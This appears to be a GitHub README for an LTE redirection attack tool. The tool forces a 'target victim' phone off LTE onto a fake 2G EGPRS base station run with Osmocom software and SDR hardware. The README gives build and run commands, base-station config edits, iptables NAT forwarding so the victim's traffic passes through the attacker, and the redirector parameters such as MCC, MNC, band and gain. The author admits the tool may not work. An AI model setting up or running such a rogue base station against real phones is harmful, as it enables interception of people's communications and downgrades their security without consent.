 # USELESS UNTIL NEW DEVELOPMENTS SEE A SOFTWARE-DEFINED-RADIO.COM


[SOFTWARE-DEFINED-RADIO.COM](https://software-defined-radio.com)






[build](https://youtu.be/0aruLybY__w)

# LTE-Redirection_Attack

To be more transparent I don't even know if it is still working, I am alone in this project and testing is sometime right or othertimes wrong.
I share it for loving free information but be kind with the dev :) i am not really the "best" at all.
like i say on my github abstract it is what it intent to do not what it do.
pull requests and issues (if they help to make things going further are really welcome)
Have a nice hacking day ;)

Force target victim to unsafe network


Tested on ubuntu 22.04

## Build
```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 by your internet interface : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours


In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./tun.sh
./osmo-all.sh start
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
bash reset_iptables.sh
./srsepc_if_masq.sh your_interface
######?????  iptables -A POSTROUTING -t nat -s 176.16.32.0/20 ! -d 176.32.16.0/20 -j MASQUERADE
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 

